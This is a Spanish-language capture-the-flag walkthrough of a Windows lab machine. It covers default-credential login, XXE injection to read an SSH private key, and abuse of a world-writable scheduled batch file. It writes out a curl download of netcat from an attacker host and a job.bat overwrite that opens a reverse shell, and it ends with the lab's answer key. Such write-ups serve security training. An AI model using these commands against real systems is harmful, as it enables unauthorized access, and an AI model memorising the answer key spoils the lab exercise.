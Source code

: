 # Markup

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Reconnaissance (Reconocimiento):** Fase crucial en el proceso de pruebas de penetración, donde se recopila información detallada sobre el objetivo. Este proceso incluye el escaneo de puertos, el análisis de los servicios disponibles, la identificación de vulnerabilidades y la recopilación de datos sobre las configuraciones del sistema. Permite a los atacantes descubrir posibles vectores de entrada.
  * **Apache**: Servidor web que puede ser explotado si no se aplica la configuración adecuada o si no se actualizan sus módulos y componentes.
  * **SSH**: Protocolo seguro para acceder de manera remota a servidores, pero con configuraciones débiles (como claves predeterminadas o contraseñas débiles) puede ser una puerta de entrada.
  * **PHP**: Lenguaje de programación común en aplicaciones web; si no se configura de manera segura, puede ser vulnerable a inyecciones y otros ataques.
  * **Scheduled Job Abuse**: Los trabajos programados mal configurados o sin restricción de privilegios pueden ser explotados para ejecutar comandos maliciosos o obtener acceso a recursos restringidos.
  * **Arbitrary File Upload**: Vulnerabilidad en la que los atacantes cargan archivos maliciosos, como shells PHP, para ejecutar código en el servidor y obtener acceso no autorizado.
  * **XXE Injection**: Ataque de inyección de XML External Entity (XXE) que explota la capacidad de procesamiento de XML para acceder a archivos locales o realizar otros ataques como el denegado de servicio.
  * **Weak Permissions**: Permisos mal configurados en el sistema de archivos pueden permitir a usuarios no autorizados acceder o modificar archivos sensibles, facilitando la escalada de privilegios o la exfiltración de datos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.95.192
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Windows** ya que su **ttl=127**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.95.192
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, los puertos **80** (**HTTP**), **22** (**SSH**) y **443** (**HTTPS**) están abiertos. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales por defecto **admin**:**password**.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos al apartado de **Order** e interceptamos las peticiones. Podemos observar que hay un XML External Entity.

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html#main-attacks" %}

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a leer la clave privada de SSH del usuario.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos la copiamos y le damos permisos para loguearnos.

```bash
chmod 600 id_rsa
ssh -i id_rsa daniel@10.129.95.192
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Buscamos lo que nos preguntan.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este escenario, **job.bat** es un archivo utilizado para programar una tarea en Windows, que ejecuta el comando **wevtutil.exe** para registrar eventos. Este archivo es ejecutado de manera regular como parte de una tarea programada.

El objetivo es actualizar este proceso de **job.bat** de un script de shell simple a un script de PowerShell y verificar los procesos en ejecución con el comando `ps` en PowerShell.

```bash
icacls job.bat
```

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al observar que el `(F)` junto a **Users** en los permisos significa que **todos los usuarios** pueden modificar el archivo **job.bat**, se puede explotar esto para agregar un comando de **netcat** en el archivo. De esta forma, cada vez que la tarea programada se ejecute, la máquina víctima se conectará de vuelta a la máquina atacante.

En nuestra máquina atacante.

```bash
wget https://github.com/vinsworldcom/NetCat64/releases/tag/1.11.6.4/nc64.exe
python3 -m http.server
```

En la máquina víctima.

```bash
curl -o nc.exe http://10.10.16.35:8000/nc.exe
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos para generar una Reverse Shell.

```bash
echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.35 1234 > C:\Log-Management\job.bat
```

Nos ponemos en escucha y recibimos la conexión.

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

#### **Tarea 1**

**¿Qué versión de Apache está corriendo en el puerto 80 del objetivo?**\
**Respuesta:** 2.4.41

#### **Tarea 2**

**¿Qué combinación de nombre de usuario:contraseña inicia sesión con éxito?**\
**Respuesta:** admin:password

#### **Tarea 3**

**¿Cuál es la palabra en la parte superior de la página que acepta la entrada del usuario?**\
**Respuesta:** order

#### **Tarea 4**

**¿Qué versión de XML se utiliza en el objetivo?**\
**Respuesta:** 1.0

#### **Tarea 5**

**¿Qué significa el acrónimo XXE / XEE?**\
**Respuesta:** XML External Entity

#### **Tarea 6**

**¿Qué nombre de usuario podemos encontrar en el código HTML de la página web?**\
**Respuesta:** Daniel

#### **Tarea 7**

**¿Qué archivo se encuentra en la carpeta Log-Management en el objetivo?**\
**Respuesta:** job.bat

#### **Tarea 8**

**¿Qué ejecutable se menciona en el archivo mencionado antes?**\
**Respuesta:** wevtutil.exe
